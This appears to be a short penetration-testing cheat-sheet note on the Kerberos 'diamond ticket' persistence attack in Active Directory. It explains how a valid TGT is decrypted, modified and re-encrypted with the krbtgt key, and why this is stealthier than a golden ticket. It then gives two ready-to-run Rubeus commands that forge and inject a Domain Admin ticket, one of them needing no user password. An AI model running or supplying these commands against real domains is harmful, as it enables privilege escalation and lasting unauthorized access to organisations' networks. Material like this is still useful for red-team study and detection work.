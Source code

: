 ```yaml
---
tags:
  - persistence
cssclasses:
  - Rubeus
---
```

- A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account
- This, like Golden Ticket, deals with abusing TGS-REQ
- Golden ticket was a TGT forging attack whereas diamond ticket is a TGT modification attack.
- The persistence lifetime will depend on the krbtgt account.
- A diamond ticket is more opsec safe as it has:
	- Valid ticket times because a TGT issued by the DC is modified.
	- In golden ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.

```batch title:"Create diamond ticket"
Rubeus.exe diamond /krbkey:krbtgt_aes256_key /user:username /password:password /enctype:aes /ticketuser:Administrator /domain:domain.name /dc:domain-controller-fqdn /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```batch title:"Create diamond ticket as another domain user (no username or password required)"
Rubeus.exe diamond /krbkey:krbtgt_aes256_key /tgtdeleg /enctype:aes /ticketuser:administrator /domain:domain.name /dc:domain-controller-fqdn /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```



